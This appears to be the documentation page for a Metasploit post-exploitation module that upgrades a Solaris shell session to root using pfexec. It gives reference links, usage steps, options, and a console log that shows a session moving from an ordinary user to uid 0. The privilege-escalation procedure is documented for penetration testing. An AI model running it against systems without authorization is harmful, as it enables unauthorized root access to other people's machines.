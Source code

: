 ## Description

  This module attempts to upgrade a shell session to UID `0` using `pfexec`.


## Vulnerable Application

  *  https://docs.oracle.com/cd/E19253-01/816-4557/prbactm-1/index.html
  *  http://www.c0t0d0s0.org/archives/4844-Less-known-Solaris-features-pfexec.html
  *  http://solaris.wikia.com/wiki/Providing_root_privileges_with_pfexec


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use  post/solaris/escalate/pfexec`
  4. `set SESSION <SESSION>`
  5. `run`
  6. Your session should now have *root* privileges


## Options

  **PFEXEC_PATH**

  Path to pfexec (default: `/usr/bin/pfexec`)

  **SHELL_PATH**

  Path to shell (default: `/bin/sh`)


## Scenarios

```
  msf > use post/solaris/escalate/pfexec 
  msf post(solaris/escalate/pfexec) > sessions -i 1 -c id
  [*] Running 'id' on shell session 1 (172.16.191.221)
  uid=100(user) gid=10(staff)

  msf post(solaris/escalate/pfexec) > set verbose true
  verbose => true
  msf post(solaris/escalate/pfexec) > set session 1
  session => 1
  msf post(solaris/escalate/pfexec) > run

  [*] Trying pfexec as `user' ...
  [*] uid=0(root) gid=0(root)
  [+] Success! Upgrading session ...
  [+] Success! root shell secured
  [*] Post module execution completed
  msf post(solaris/escalate/pfexec) > sessions -i 1 -c id
  [*] Running 'id' on shell session 1 (172.16.191.221)
  uid=0(root) gid=0(root)

  msf post(solaris/escalate/pfexec) > 
  ```

